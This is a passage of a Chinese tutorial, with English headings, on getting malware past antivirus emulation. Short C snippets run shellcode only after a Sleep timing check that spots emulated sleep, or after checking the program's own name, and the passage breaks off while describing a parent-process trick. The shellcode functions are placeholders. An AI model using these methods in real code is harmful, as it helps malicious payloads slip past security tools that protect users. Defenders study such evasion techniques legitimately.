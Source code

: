 ```cpp
```



### 例子2： Time distortion

我们知道Sleep函数是被AV仿真了。做这个是为了阻止使用一个简单的Sleep调用就绕过扫描时间限制。这个问题是，是否在这个模拟的Sleep方式中存在缺陷？

```c
#include <time.h>
#pragma comment(lib, "winmm.lib")
int main()
{
    DWORD mesure1;
    DWORD mesure2;
    mesure1 = timeGetTime();
    Sleep(1000);
    mesure2 = timeGetTime();
    if ((mesure2 > (mesure1 + 1000)) && (mesure2 < (mesure1 + 1005)))
    {
        decryptCodeSection();
        startShellCode();
    }
    return 0;
}
```



### 例子3：What is my name?

直接看代码都能懂

```c
int main(int argc, char *argv[])
{
    if (strstr(argv[0], "test.exe") > 0)
    {
        decryptCodeSection();
        startShellCode();
    }
    return 0;
}
```



## The “I call myself” method

这是环境检查方法的一个变体。AV只有在以某种方式调用时才会触发代码

### 例子1：I am my own father 

在这个例子中，如果它的父进程也是test.exe的话，可执行文件（test.exe）才会进入解密的分支。当代码被安装，它会获取其父进程的ID，如果其父进程不是test.exe，它会调用test.exe然后停止。被调用的进程也有一个叫test.xee的父进程并且进入解密部分。
